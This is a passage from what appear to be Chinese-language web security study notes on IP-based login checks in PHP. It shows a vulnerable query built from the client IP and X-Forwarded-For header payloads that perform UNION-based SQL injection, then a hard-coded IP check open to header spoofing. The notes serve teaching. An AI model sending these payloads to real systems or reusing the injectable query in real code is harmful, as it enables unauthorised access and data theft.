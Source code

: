 ```php
            echo "ID: " . $row[2];
        }
    } else {
        // 如果没有符合条件的记录，输出拒绝访问的提示
        echo "<script>alert('拒绝访问')</script>";
    }
}
?>
```

#### 三种情况

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/b7ad3f4538ba4f169694fecc884052e5.png)

##### 情况一：数据库白名单IP去判断-select注入

判断IP是不是在数据库中，引发xff注入 数据库ip存储导致的错误。

无论怎么访问都登陆不上，并回复拒绝访问。可能是ip限制访问。

 由于代码语句中有ip可以注入：

```sql
 $sql = "SELECT * FROM admin WHERE ip='$ip'"；
```

所以使用bp抓包伪造ip进行登录：

```sql
X-Forwarded-for:asdsad' union select 1,version(),database(),user()--+
X-Forwarded-for:asdsad' union select 1,version(),database(),user() and '1'='1
```

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4314.png" style="zoom:80%;" />

##### 情况二：代码配置固定IP去判断

```php
$ip=getip();
//echo $ip;
if(isset($username)){
    // 判断IP是不是在数据库中 引发xff注入 数据库存储ip导致的注入
    // IP配置到代码中 那就不是产生注入了
    //$sql="select * from admin where ip='$ip'";
 
    // 绕过隐患 ip放在配置文件或代码声明中
    if($ip=='127.0.0.1'){
        echo "<script>alert('可以登录')</script>";
    }
    else{
        echo "<script>alert('拒绝访问')</script>";
    }
}
```
